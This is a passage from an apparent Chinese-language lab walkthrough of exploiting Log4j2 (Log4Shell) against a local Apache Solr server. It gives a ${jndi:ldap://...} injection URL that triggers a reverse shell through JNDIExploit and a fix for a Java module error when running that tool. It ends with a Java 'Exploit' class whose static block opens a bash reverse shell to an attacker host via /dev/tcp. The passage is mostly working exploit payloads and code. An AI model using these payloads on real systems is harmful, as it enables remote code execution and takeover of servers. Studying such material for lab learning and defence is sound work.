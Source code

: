 浏览器访问：`http://127.0.0.1:8983/solr/admin/cores?_=${jndi:ldap://192.168.56.102:1389/Basic/ReverseShell/192.168.56.102/8888}`

假如报错：

```
java.lang.IllegalAccessError: superclass access check failed: 
class com.feihong.ldap.template.TomcatEchoTemplate (in unnamed module @0x4015e7ec) 
cannot access class com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet (in module java.xml) 
because module java.xml does not export com.sun.org.apache.xalan.internal.xsltc.runtime to unnamed module @0x4015e7ec
```

是因为Java 9开始，模块类如果没有被显式导出，则无法被其他模块访问。

解决方法：

```bash
java --add-exports java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED -jar JNDIExploit-1.3-SNAPSHOT.jar
```

成功反弹shell：

![](/img/2024-08-25-log4j2-rce/7.png)

### 4.2 手工搭建HTTP+LDAP服务器

编写恶意代码：

```java
import java.lang.Runtime;
import java.lang.Process;

public class Exploit {
static {
try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"bash", "-c", "bash -i >& /dev/tcp/攻击机kali机的ip/nc监听的端口 0>&1"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
